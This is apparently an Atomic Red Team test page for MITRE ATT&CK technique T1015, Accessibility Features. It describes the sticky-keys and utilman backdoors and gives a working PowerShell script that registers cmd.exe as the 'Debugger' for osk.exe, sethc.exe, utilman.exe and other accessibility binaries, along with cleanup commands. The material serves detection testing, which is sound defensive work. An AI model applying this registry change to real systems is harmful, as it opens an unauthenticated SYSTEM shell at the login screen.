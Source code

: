 # T1015 - Accessibility Features

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1015)

<blockquote>Windows contains accessibility features that may be launched with a key combination before a user has logged in (for example, when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed
five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed.
The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access
through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways because of code
integrity enhancements. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems,
the binary must reside in <code>%systemdir%\</code>, and it must be protected by Windows File or Resource Protection (
WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The debugger method was likely discovered as a potential workaround because
it does not require the corresponding accessibility feature binary to be replaced. Examples for both methods:

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the
program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that
provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at
the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1076) will cause the
replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

For the debugger method on Windows Vista and later as well as Windows Server 2008 and later, for example, a Registry key
may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for the
accessibility program (e.g., "utilman.exe"). After the Registry is modified, pressing the appropriate key combination at
the login screen while at the keyboard or when connected with RDP will cause the "debugger" program to be executed with
SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)

* On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
* Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
* Narrator: <code>C:\Windows\System32\Narrator.exe</code>
* Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
* App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)

<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes

Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of
executables.

Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| parent_list | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | String | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe|
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe | Path | C:&#92;windows&#92;system32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){   
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:

```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f | Out-Null
}
```

<br/>
